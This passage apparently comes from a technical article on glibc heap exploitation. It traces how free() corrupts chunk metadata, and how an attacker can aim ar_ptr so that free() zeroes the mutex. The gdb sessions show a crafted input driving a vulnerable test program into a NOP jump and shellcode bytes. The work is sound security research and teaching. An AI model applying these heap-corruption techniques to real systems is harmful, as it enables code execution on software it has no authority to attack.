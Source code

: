 But once the first call to free () is completed, as we said, the first 8
bytes are trashed with memory addresses. Most surprising is that the
memory 0x0804a0010(av) + 4, is set to zero (0x00000000).

This position should be "av->max_fast", which being zero and not having
NONCONTIGUOUS_BIT bit enabled, dumps the error above. This seems happens
with the following instructions:

   # define mutex_unlock(m)            (*(m) = 0)

... that is executed to the end of "_int_free()" with:

   (void *)mutex_unlock(&ar_ptr->mutex);

Anyway, if someone puts a 0 for us. What happens if we do that ar_ptr
points to 0x0804a014?

(gdb) x/16x 0x0804a014
                // Mutex       // max_fast ?
0x804a014:	0x00000000	0x00000102	0x00000102	0x00000102
0x804a024:	0x00000102	0x00000102	0x00000102	0x00000102
0x804a034:	0x08049648	0x08049648	0x08049648	0x08049648
0x804a044:	0x08049648	0x08049648	0x08049648	0x08049648

So we can save 8 bytes of garbage in the exploit and the hardcoded value
of "mutex", and leave to free () to do the rest for us.

[-----]

blackngel@mac:~$ gdb -q ./heap1
(gdb) run < file
Starting program: /home/blackngel/heap1 < file
ptr found at 0x804a008
good heap allignment found on malloc() 724 (0x81002a0)

Program received signal SIGSEGV, Segmentation fault.
0x081002b2 in ?? ()
(gdb) x/16x 0x08100298
0x8100298:	0x90900ceb	0x00000409	0x08049648	0x0804a044
0x81002a8:	0x00000000	0x00000000	0x5bf42474	0x5e137381
0x81002b8:	0x83426ac9	0xf4e2fceb	0xdb32c234	0x6f02af0c
0x81002c8:	0x2a8d403d	0x4202ba71	0x2b08e636	0x10894030
(gdb) 

[-----]

It seems that the second chunk "p", again suffer the wrath of free().
PREV_SIZE field is OK, SIZE field is OK, but the 8 NOPS are trashed with
two memory addresses and 8 bytes NULL.

Note that after the call to "unsorted_chunks()", we have two sentences
like these:

      p->bk = bck;
      p->fd = fwd;
	
